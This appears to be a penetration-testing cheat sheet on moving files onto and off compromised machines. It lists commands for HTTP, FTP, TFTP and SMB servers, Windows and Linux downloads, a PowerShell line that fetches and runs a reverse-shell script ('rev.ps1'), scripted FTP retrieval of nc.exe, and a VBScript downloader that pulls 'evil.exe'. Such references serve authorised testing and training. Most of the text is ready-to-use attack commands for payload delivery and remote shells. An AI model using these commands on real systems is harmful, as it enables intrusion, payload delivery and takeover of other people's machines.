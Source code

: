 ## Transfer files (HTTP)

python2 -m SimpleHTTPServer 8000

python3 -m http.server 8000

## Transfer files (HTTP)

php -S 127.0.0.1:8080

## Transfer files (FTP)

python3 -m pyftpdlib -p 21

## Transfer file (FTP/msf)

msf> use auxiliary/server/ftp

## Transfer file (TFTP/msf)

msf> use auxilitary/server/tftp

## Windows ( Download TFTP )

tftp -i xxx.xxx.xxx.xxx GET filename.exe\
tftp -i xxx.xxx.xxx.xxx PUT filename.exe

## Windows ( Enable TFTP)

pkgmgr /iu:"TFTP"

## SMB service (Impacket)

python smbserver.py SHARE /root/shells

# Mount windows fileshare                                                                                                                                                                                                                                                               
                                                                                                                                                                                                                                                                                        New-PSDrive -Name "FolderName" -PSProvider "Filesystem" -Root "\\xxx..xxx.xxx\sharename"                                                                                                                                                                                                

## Copy files (SMB service)

copy \\\xxx.xxx.xxx.xxx\\SHARE .

## Windows ( Download HTTP )

powershell "IEX(New-Object Net.WebClient).downloadString('http://xxx.xxx.xxx:8000/rev.ps1')"

(new-object System.Net.WebClient).Downloadfile("http://xxx.xx.xx.xx:8000/1.exe", "1.exe")

powershell -command "& { iwr http://xx.xx.xx.xx:8000/potatos.exe -OutFile potatos.exe }"

## Linux ( Download HTTP )

wget -O filename http://xxx.xxx.xxx/filename

curl -o filename http://xxx.xxx.xxx.xxx/filename

## FTP transfer

You can start FTP on linux box with this command

```sh
python3 -m pyftpdlib -p 21 
```

Then you can transfer with these commands

```sh
echo open 10.11.0.254 21> ftp.txt
echo USER anonymous>> ftp.txt
echo password>> ftp.txt
echo bin >> ftp.txt
echo GET nc.exe >> ftp.txt
echo bye >> ftp.txt

ftp -v -n -s:ftp.txt
```

## wget 

```sh
echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http,varByteArray,strData,strBuffer,lngCounter,fs,ts >> wget.vbs
echo Err.Clear >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo http.Open "GET",strURL,False >> wget.vbs
echo http.Send >> wget.vbs
echo varByteArray = http.ResponseBody >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo Set ts = fs.CreateTextFile(StrFile,True) >> wget.vbs
echo strData = "" >> wget.vbs
echo strBuffer = "" >> wget.vbs
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1,1))) >> wget.vbs
echo Next >> wget.vbs
echo ts.Close >> wget.vbs

#After you've created wget.vbs
cscript wget.vbs http://192.168.10.5/evil.exe evil.exe
```


